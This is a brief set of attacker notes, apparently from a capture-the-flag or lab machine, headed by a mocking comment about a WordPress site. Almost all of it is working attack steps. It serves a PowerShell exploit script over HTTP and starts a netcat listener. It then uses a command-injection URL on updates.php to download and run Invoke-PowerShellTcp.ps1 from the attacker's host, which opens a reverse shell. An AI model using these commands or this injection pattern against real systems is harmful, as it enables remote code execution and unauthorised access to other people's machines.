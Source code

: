 ##haha yes shitty wordpress site go brrrrrrrrrrrrrrrrrrrrrrrrrr

#1: host http server for target to get exploit ps1 (might need to change host in ps1 file).
sudo python3 -m http.server 80

#2. create ncat listener for shell
sudo rlwrap nc -nvlp 443

#3. go to the updates url we went to with the sqli injection and start that script (update ip if needed)
http://10.10.10.167/updates.php?c=powershell%20IEX(IWR%20http://10.10.14.39/Invoke-PowerShellTcp.ps1%20-UseBasicParsing)
